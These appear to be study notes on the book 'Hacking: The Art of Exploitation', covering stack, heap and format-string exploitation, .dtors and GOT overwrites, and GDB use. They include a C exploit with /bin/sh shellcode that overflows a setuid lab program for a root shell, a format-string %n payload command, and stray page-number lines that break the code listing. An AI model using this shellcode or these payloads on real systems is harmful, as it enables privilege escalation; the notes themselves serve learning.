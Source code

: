 # Hacking : The Art of Exploitation Notes

* `seq` in bash
  * for i in $\(seq 1 3 10\)
* BASH’s for loop can actually be used to send each of these lines to an echo command, with command-line options to recognize hex expansion and to suppress adding a newline character to the end. : `-en`
* Use env var if the buffer is too small for shellcode
  * env var near bottom of stack
  * A breakpoint is set at the beginning of main\(\), and the program is run. This will set up memory for the program, but it will stop before anything happens. Now we can examine memory down near the bottom of the stack.
  * In C’s standard library there is a function called getenv\(\), which accepts the name of an environment variable as its only argument and returns that variable’s memory address.
* The use of system\(\) can sometimes cause problems. If a setuid program uses system\(\), the privileges won’t be transferred, because /bin/sh has been dropping privileges since version two
* The execl\(\) function belongs to a family of functions that execute commands by replacing the current process with the new one. The arguments for execl\(\) start with the path to the target program and are followed by each of the command-line arguments. The second function argument is actually the zeroth command-line argument, which is the name of the program. The last argument is a NULL to terminate the argument list, similar to how a null byte terminates a string. The execl\(\) function has a sister function called execle\(\), which has one additional argument to specify the environment under which the executing process should run. This environment is presented in the form of an array of pointers to null-terminated strings for each environment variable, and the environment array itself is terminated with a NULL pointer. With execl\(\), the existing environment is used, but if you use execle\(\), the entire environment can be specified. If the environment array is just the shellcode as the first string \(with a NULL pointer to terminate the list\), the only environment variable will be the shellcode. This makes its address easy to calculate. In Linux, the address will be 0xbffffffa, minus the length of the shellcode in the environment, minus the length of the name of the executed program. Since this address will be exact, there is no need for a NOP sled. All that’s needed in the exploit buffer is the address, repeated enough times to overflow the return address in the stack, as shown in exploit\_nosearch\_env.c.

```c
exploit_notesearch_env.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";
int main(int argc, char *argv[]) {
 char *env[2] = {shellcode, 0};
 unsigned int i, ret;
150 0x300
 char *buffer = (char *) malloc(160);
 ret = 0xbffffffa - (sizeof(shellcode)-1) - strlen("./notesearch");
 for(i=0; i < 160; i+=4)
 *((unsigned int *)(buffer+i)) = ret;
 execle("./notesearch", "notesearch", buffer, 0, env);
 free(buffer);
}


reader@hacking:~/booksrc $ gcc exploit_notesearch_env.c
reader@hacking:~/booksrc $ ./a.out
```



* repeated return address for buffer overflows
* Buffer overflow can also happen in the heap, they don'z ned to be on the stack
  * This time, the overflow is designed to overwrite the datafile buffer with the string testfile. This causes the program to write to testfile instead of /var/notes, as it was originally programmed to do. However, when the heap memory is freed by the free\(\) command, errors in the heap headers are detected and the program is terminated. Similar to the return address overwrite with stack overflows, there are control points within the heap architecture itself. The most recent version of glibc uses heap memory management functions that have evolved specifically to counter heap unlinking attacks. Since version 2.2.5, these functions have been rewritten to print debugging information and terminate the program when they detect problems with the heap header information. This makes heap unlinking in Linux very difficult. However, this particular exploit doesn’t use heap header information to do its magic, so by the time free\(\) is called, the program has already been tricked into writing to a new file with root privileges.
* Notice that the salt value is always at the beginning of the hash. When a user logs in and enters a password, the system looks up the encrypted password 154 0x300 for that user. Using the salt value from the stored encrypted password, the system uses the same one-way hashing algorithm to encrypt whatever text the user typed as the password
  * ```text
    reader@hacking:~/booksrc $ perl -e 'print crypt("password", "AA"). "\n"'
    AA6tQYSfGxd/A
    reader@hacking:~/booksrc $ perl -e 'print crypt("password", "XX"). "\n"'
    XXq2wKiyI43A2
    ```
* The nm command lists symbols in object files. This can be used to find addresses of various functions in a program
* **cat -**
* with %n, when you need to write big value, instead of writting a lot of characters with padding to generate your value, you can craft it by using succeding %n to a shifted memory address \(each time writing one byte of the final value\)
  * \(We control the least significant byte\)
  * It should be noted that the three bytes found after the target address will also be overwritten using this technique.
  * if, for the following writes, you need to write a lesser number than what could be the value of %n, just make it even bigger so that the important byte for you will contain what you want
    * ```text
      Memory                     94 95 96 97
      First write to 0x08049794  AA 00 00 00
      Second write to 0x08049795    BB 00 00 00
      Third write to 0x08049796        CC 00 00 00
      Fourth write to 0x08049797          DD 00 00 00
      Result                     AA BB CC DD

      // if, for the following writes, 
      // you need to write a lesser number than what could be the value of %n
      // just make it even bigger
      // so that the important byte for you will contain what you want
      Memory                     94 95 96 97
      First write to 0x08049794  BB 00 00 00
      Second write to 0x08049795    AA 10 00 00
      Third write to 0x08049796        CC 00 00 00
      Fourth write to 0x08049797          DD 00 00 00
      Result                     BB AA CC DD
      ```
* Direct parameter access is a way to simplify format string exploits
  * As the name would imply, direct parameter access allows parameters to be accessed directly by using the dollar sign qualifier. For example, %7$d would access the nth parameter and display it as a decimal number.
  * Combination of direct access and field width  : %4$05d
  * can be use with %n
  * ./fmt\_vuln $\(perl -e 'print "\x94\x97\x04\x08" . "\x95\x97\x04\x08" . "\x96\x97\x04\x08" . "\x97\x97\x04\x08"'\)%98x%4$n%139x%5$n%258x%6$n%192x%7$n
* Another technique that can simplify format string exploits is using short writes. A short is typically a two-byte word
  * %hn can write a memory address in 2 ewrites



* In binary programs compiled with the GNU C compiler, special table sections called .dtors and .ctors are made for destructors and constructors, respectively.
  * Constructor functions are executed before the main\(\) function is executed, and destructor functions are executed just before the main\(\) function exits with an exit system call.
  * A function can be declared as a destructor function by defining the destructor attribute
  * `static void cleanup(void) __attribute__ ((destructor));`
  * In the preceding code sample, the cleanup\(\) function is defined with the destructor attribute, so the function is automatically called when the main\(\) function exits
  * This behavior of automatically executing a function on exit is controlled by the .dtors table section of the binary. This section is an array of 32-bit addresses terminated by a NULL address. The array always begins with 0xffffffff and ends with the NULL address of 0x00000000. Between these two are the addresses of all the functions that have been declared with the destructor attribute.
  * The nm command can be used to find the address of the cleanup\(\) function, and objdump can be used to examine the sections of the binary.
  * the .dtors section is that it is writable
  * the .dtors section is that it is included in all binaries compiled with the GNU C compiler, regardless of whether any functions were declared with the destructor attribute



* Since a program could use a function in a shared library many times, it’s useful to have a table to reference all the functions. Another special section in compiled programs is used for this purpose—the procedure linkage table \(PLT\). Exploitation 191 This section consists of many jump instructions, each one corresponding to the address of a function. It works like a springboard—each time a shared function needs to be called, control will pass through the PLT.
  * the procedure linking table is shown to be read only.
  * they aren’t jumping to addresses but to pointers to addresses
  * These addresses exist in another section, called the global offset table \(GOT\), which is writable. These addresses can be directly obtained by displaying the dynamic relocation entries for the binary by using objdump.
  * . Another advantage of overwriting the GOT is that the GOT entries are fixed per binary, so a different system with the same binary will have the same GOT entry at the same add





```text
reader@hacking:~/booksrc $ $(perl -e 'print "uname";') 
Linux 
reader@hacking:~/booksrc $ una$(perl -e 'print "m";')e
Linux
```

## GDB 

* Test if `set disassembly intel` works
  * Write it in the `~./.gdbinit` file
  * Test if you can define the hook-stop there too
* If the c source code was compiled with `gcc` with the  `-d` options, `gdb` can have access to the source code with `list`
  * i guess it's only the case when having acces to the source code, but you can examine a variable with `x/xw var`
    * And retrieve the address of a variable with `&var`
* Verify that the shorthand of the `info` commands actually work
*  `bt` Shows the stack backtrace
  * The backtrace also shows the nested function calls by looking at records kept on the stack. Each time a function is called, a record called a stack frame is put on the stack. Each line in the backtrace corresponds to a stack frame. Each stack frame also contains the local variables for that context. The local variables contained in each stack frame can be shown in GDB by adding the word full to the backtrace command.



